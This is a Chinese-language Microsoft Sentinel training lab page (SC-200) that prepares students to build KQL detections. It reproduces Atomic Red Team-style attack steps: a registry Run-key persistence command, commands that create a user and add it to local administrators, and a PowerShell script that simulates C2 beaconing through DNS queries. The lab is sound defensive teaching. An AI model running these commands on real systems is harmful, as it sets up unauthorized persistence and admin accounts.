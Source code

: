 ```yaml
---
lab:
  title: 练习 5 - 了解检测建模
  module: Learning Path 9 - Create detections and perform investigations using Microsoft Sentinel
---
```


# 学习路径 9 - 实验室 1 - 练习 5 - 了解检测建模

## 实验室方案

![实验室概述。](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)

### 完成本实验室的估计时间：30 分钟

### 任务 1：了解攻击

>**重要说明：在此练习中你不会执行任何操作。**  这些说明只说明了在后续练习中将执行的攻击。 请仔细阅读本页。

攻击模式基于开源项目： <https://github.com/redcanaryco/atomic-red-team>

#### 攻击 1 - 通过注册表项添加实现的持久性攻击

攻击者会在运行注册表项中添加一个程序。 这通过使程序在用户每次登录时都能运行来实现持久性。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻击 2 - 用户添加和特权提升

攻击将添加新建用户并将新用户提升到管理员组。 这会让攻击者能够使用有特权的其他帐户登录。

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### 攻击 3 - DNS / C2

攻击者会向命令发送大量 DNS 查询，并控制 (C2) 服务器。 目的是对来自单个源系统或发往单个目标域的 DNS 查询的数目触发基于阈值的检测。

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### 任务 2：了解检测建模

本实验室中使用的攻击检测配置循环代表所有数据源，虽然你仅专注于两个特定数据源。

要构建检测，从构建 KQL 语句开始。 你将开始攻击主机，因此将使用代表数据开始构建 KQL 语句。

有 KQL 语句后，即可创建分析规则。

触发规则并创建警报和事件后，调查以确定你是否提供了可帮助安全运营分析师进行调查的字段。

接下来，你将对分析规则进行其他更改。

>**注意：** 为了方便演示实验室，某些警报触发的时间期限较短。

## 继续完成练习 6
